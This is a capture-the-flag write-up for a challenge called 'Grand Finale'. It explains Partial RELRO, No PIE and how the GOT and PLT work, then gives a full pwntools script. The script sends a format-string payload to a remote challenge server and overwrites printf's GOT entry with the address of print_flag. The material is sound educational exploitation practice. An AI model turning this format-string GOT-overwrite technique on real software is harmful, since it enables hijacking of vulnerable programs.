


[Source code](./handout/4-Grand_Finale)

When we run `checksec` on the binary, we can see that we get `Partial RELRO` and `No PIE`



`Partial RELRO` means that we can write in the `Global Offset Table` or `GOT`.


### The GOT (Global Offset Table) — Quick Reference

#### WHAT IS IT?
GOT = a writable table in memory that stores the real runtime addresses
      of external functions (printf, puts, system…)

#### WHY DOES IT EXIST?
- External functions live in shared libs (libc) loaded at random addresses (ASLR)
- The binary can't hardcode their address at compile time
- So it stores a placeholder in the GOT, filled in at runtime by the dynamic linker

#### HOW A CALL WORKS (lazy binding)
your code -> PLT stub -> reads GOT entry -> call real printf()  
if first call: linker resolves & writes the address)  
for next calls: address already there, jump directly)

#### WHY IS IT A PWN TARGET?
  If you can write to `GOT[printf]`  →  redirect any printf() call
  to whatever function you want (e.g. system, print_flag, win…)

#### RELRO protection
  No/Partial RELRO  →  GOT is writable  → can overwrite ✅  
  Full RELRO     →  GOT is read-only  → cannot overwrite ❌


`PIE` is not enabled so we can just retrieve the address of the `print_flag` address with the `nm` command (or with `elf.symbols['print_flag'` in the exploit code), and find the offset the `name` variable is at as we did in the previous challenges.

In the `GOT` we will overwrite the `printf` function so the next time it runs, `print_flag` get executed.  

Final script:

```python
from pwn import *  

FILE = "./grand_finale"
HOST = "chal.sigpwny.com"
PORT = 1385
OFFSET = 10

context.binary = FILE
elf = ELF(FILE, checksec=False)

conn = remote(HOST, PORT) 

# Extract print_flag address from symbols
print_flag_addr = elf.symbols['print_flag']
info(f"{hex(print_flag_addr) = }")

# Extract print_flag address from GOT
printf_addr = elf.got['printf']
info(f"{hex(printf_addr) = }")

# Construct the payload
payload = fmtstr_payload(OFFSET, {printf_addr: print_flag_addr}, write_size='byte')
# Send the payload
conn.sendlineafter(b"? ",payload)
conn.interactive()
```



We successfully overwrote the `GOT`!

[5-Grander_Finale](./5-Grander_Finale.md)
